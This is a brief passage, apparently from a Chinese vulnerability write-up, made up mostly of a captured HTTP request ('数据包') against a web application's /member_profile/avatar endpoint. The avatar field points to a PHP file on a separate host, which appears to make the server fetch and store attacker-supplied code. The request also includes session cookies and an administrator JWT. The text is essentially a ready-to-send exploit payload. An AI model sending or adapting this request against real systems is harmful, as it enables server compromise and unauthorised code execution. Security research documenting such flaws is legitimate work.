 ![document_image_rId11.png](assets/1704861626-eed97eb7d7f0a26ff106604640a4c188.png)

数据包：

```php
POST /member_profile/avatar HTTP/1.1
Host: localhost:38201
Content-Length: 44
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:38201
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:38201/member_profile/avatar
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: cb_lang=zh-cn; PHPSESSID=b9b3b6655310f81aa0329bfd23522581; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDgyODg4MCwibmJmIjoxNjk0ODI4ODgwLCJleHAiOjE2OTc0MjA4ODAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.y5r2KvC8qH8eOhSYzK07JKHvRFcUDbFgCpdFuJTa1m4; expires_time=1697420880; ssid=eyJpdiI6ImZSdFV1aHNPR2JqdkhEZEpWN1IwUHc9PSIsInZhbHVlIjoiNG04VmdheFVoNFl0VDhUWkNScjY2YnRPY0pvRWZnYlJoU0dyb3ZxVlZHRVwvRnl6S2FtYUJmSVpUaDJZXC95OCsrU1hURjVZMzlKalphTjBMS2kyZG5CQT09IiwibWFjIjoiYTYyMWI3MTE2NTBmODY0ZmFhMmVjMDg0OWVhMWQxODQzNTVlYWM3NTgzNDhmOTM2NjEyMTU0M2NjNjM2NDg2YyJ9
Connection: close

type=&avatar=http://127.0.0.1:19980/help.PHP
```
